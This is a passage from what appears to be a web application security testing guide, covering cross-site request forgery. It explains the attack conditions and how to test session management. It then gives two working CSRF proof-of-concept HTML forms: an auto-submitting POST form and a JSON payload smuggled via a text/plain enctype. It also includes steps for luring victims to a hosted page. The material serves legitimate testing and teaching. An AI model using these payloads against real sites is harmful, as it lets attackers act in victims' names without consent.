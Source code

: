 An interesting thing is that these vulnerabilities may be exercised behind a firewall; i.e. it is sufficient that the link being attacked be reachable by the victim and not directly by the attacker. In particular, it can be any intranet web server; for example, in the firewall management scenario mentioned before, which is unlikely to be exposed to the Internet.

Self-vulnerable applications, i.e. applications that are used both as attack vector and target (such as web mail applications), make things worse. Since users are logged in when they read their email messages, a vulnerable application of this type can allow attackers to perform actions such as deleting messages or sending messages that appear to originate from the victim.

Test Objectives
---------------

-   Determine whether it is possible to initiate requests on a user’s behalf that are not initiated by the user.

How to Test
-----------

Audit the application to ascertain if its session management is vulnerable. If session management relies only on client-side values (information available to the browser), then the application is vulnerable. “Client-side values” refers to cookies and HTTP authentication credentials (Basic Authentication and other forms of HTTP authentication; not form-based authentication, which is an application-level authentication).

Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via JavaScript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1.  Create an HTML page similar to that shown below
2.  Host the HTML on a malicious or third-party site
3.  Send the link for the page to the victim(s) and induce them to click it.

```
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We’ll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
